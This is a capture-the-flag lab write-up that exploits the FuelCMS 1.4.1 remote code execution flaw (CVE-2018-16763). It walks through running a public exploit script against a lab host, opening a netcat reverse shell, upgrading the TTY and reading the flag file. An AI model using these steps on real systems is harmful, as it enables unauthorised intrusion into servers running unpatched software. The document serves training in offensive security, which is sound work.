

# Vulnerability Capstone — CVE-2018-16763

## Overview

| Field | Details |
|-------|---------|
| **CVE** | CVE-2018-16763 |
| **Target** | FuelCMS 1.4.1 |
| **Type** | Remote Code Execution (RCE) |

---

## Exploit Setup

### Step 1 — Get the Exploit

The original exploit `50477.py` from Exploit-DB was not functional, so the following alternative was used instead:

- **Repository:** [p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE)

---

## Exploitation

### Step 2 — Run the Exploit

```bash
python3 fuel-cms.py 10.49.164.112
```

```
 ______         _ _____ ___  ___ _____ 
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--.
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/
Tested on 1.4
Created by Ac1d

        Menu

exit     -      Exit app
shell_me -      Get a reverse shell (netcat)
help     -      Show this help

fuelCMS$ shell_me
Enter your attacking machine IP:PORT $ 192.168.134.120:1337

Hope you had your listener ready!!
```

---

### Step 3 — Catch the Reverse Shell

On a separate terminal, set up a Netcat listener:

```bash
nc -lvnp 1337
```

Once the shell connects, upgrade to a fully interactive TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Shell Session

```
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.134.120] from (UNKNOWN) [10.49.164.112] 33124
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ackme-blog:/var/www/html/fuelcms$ cd /home
www-data@ackme-blog:/home$ cd ubuntu
www-data@ackme-blog:/home/ubuntu$ ls
flag.txt
www-data@ackme-blog:/home/ubuntu$ cat flag.txt
THM{ACKME_BLOG_HACKED}
```

---

## Flag

```
THM{ACKME_BLOG_HACKED}
```

---

## Screenshot



---